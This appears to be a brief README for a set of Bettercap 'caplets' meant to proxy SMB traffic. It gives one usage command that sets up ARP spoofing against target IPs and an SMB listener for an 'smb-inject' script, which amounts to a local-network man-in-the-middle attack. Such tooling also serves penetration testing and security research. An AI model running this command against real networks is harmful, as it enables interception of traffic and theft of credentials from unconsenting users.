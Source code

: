 <h1>Bettercap SMB Proxy Caplets</h1>
<br>
Usage:
<br>
bettercap -caplet smb-inject.cap -eval "set arp.spoof.targets IP; set smb.listener.ip SMB.Server.IP"
